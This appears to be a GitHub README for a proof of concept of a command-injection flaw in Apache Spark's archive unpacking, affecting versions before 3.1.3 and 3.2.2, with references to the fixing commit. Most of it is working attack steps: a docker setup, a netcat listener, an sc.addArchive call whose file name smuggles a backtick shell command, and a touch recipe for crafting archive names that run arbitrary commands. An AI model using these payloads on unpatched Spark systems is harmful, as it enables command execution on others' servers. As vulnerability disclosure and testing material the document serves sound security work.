


# Spark Shell Cmd Injection Vulnearability

## Introduction

The [unTarUsingTar](https://github.com/apache/hadoop/blob/trunk/hadoop-common-project/hadoop-common/src/main/java/org/apache/hadoop/fs/FileUtil.java#L904) method of hadoop was used in spark to extract the archived file in `core/src/main/scala/org/apache/spark/util/Utils#unpack`. In no `windows` platform, it may leading command injection.

Impact version:

```
Spark < 3.1.3
Spark < 3.2.2
```

## Usage

Start the container

```bash
docker-compse run spark
```

it will open a `spark-shell`,

open another shell by attach to the container with `root` and run 

```bash
nc -lvvp 9000
```

input the following content to `spark-shell`

```bash
sc.addArchive("/opt/`nc -z -w 2 localhost 9000`&&poc.tar")
```

Or you can create yourself archive file and copy it to container with

```
touch \`{command(need escapation)}\`\&\&poc.tar
# exmaple
# touch \`nc\ \-z\ \-w\ 2\ localhost\ 9000\`\&\&poc.tar
```

and you will found the command has been exeuted.



A local screenshot of poc.



## Reference

1. https://github.com/apache/spark/commit/057c051285ec32c665fb458d0670c1c16ba536b2
2. https://github.com/apache/spark/tree/057c051285ec32c665fb458d0670c1c16ba536b2
3. https://github.com/apache/spark/pull/35946